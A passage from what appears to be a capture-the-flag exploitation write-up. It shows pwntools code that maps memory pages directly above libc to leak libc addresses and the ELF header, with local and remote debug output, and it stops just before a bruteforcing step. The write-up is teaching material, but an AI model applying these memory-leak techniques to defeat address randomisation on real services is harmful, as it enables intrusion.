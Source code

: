 We'll test it out with a short script: This leaks the libc addresses from the mmap address, and then attempts to leak the header for libc itself by allocating an mmap page directly above libc, allowing for contiguous reading:
```python
create(length=0x1000, prot=7, flags=1, fd=3)
file_mmap = unpack_hex(write(0x30))
libc = file_mmap-0x27e000
create(addr=libc-0x1000, length=0x1000, prot=7, flags=0x32)
context.log_level = 'debug'
s = write(0x1010)
r.interactive()
```
The flags for the second `mmap()` call are `MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS`. Not entirely sure if the first flag is necessary, but `MAP_FIXED` is needed to place the page *exactly* before libc, and `MAP_ANONYMOUS` is done to ignore the value of `fd` passed to `mmap()`.

Locally, this works fine:
```python
[DEBUG] Received 0x5 bytes:
    b'sz = '
[DEBUG] Sent 0x5 bytes:
    b'4112\n'
[DEBUG] Received 0xfff bytes:
    00000000  64 61 74 61  20 3d 20 00  00 00 00 00  00 00 00 00  │data│ = ·│····│····│
    00000010  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    00000ff0  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00     │····│····│····│···│
    00000fff
[DEBUG] Received 0x22 bytes:
    00000000  00 00 00 00  00 00 00 00  7f 45 4c 46  02 01 01 03  │····│····│·ELF│····│
    00000010  00 00 00 00  00 00 00 00  0a 63 68 6f  69 63 65 20  │····│····│·cho│ice │
    00000020  3d 20                                               │= │
    00000022
[*] Switching to interactive mode
\x00\x00\x00\x00choice = $
```
The ELF header in the second half of the `DEBUG` output corresponds to the start of a shared object. On remote, we receive **NOTHING**:
```python
[DEBUG] Received 0x5 bytes:
    b'sz = '
[DEBUG] Sent 0x5 bytes:
    b'4112\n'
[DEBUG] Received 0x7 bytes:
    b'data = '
[DEBUG] Received 0xa bytes:
    b'\n'
    b'choice = '
```
Nothing is received at all. Maybe it's a page fault -- what if we reduce the size?
```python
[DEBUG] Sent 0x3 bytes:
    b'16\n'
[DEBUG] Received 0x7 bytes:
    b'data = '
[DEBUG] Received 0x1a bytes:
    00000000  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    00000010  0a 63 68 6f  69 63 65 20  3d 20                     │·cho│ice │= │
    0000001a
[*] Switching to interactive mode

choice = $
```
Works fine here. We're probably not getting aligned exactly above libc on remote. Let's try a little bit of cheap bruteforcing:
```python
```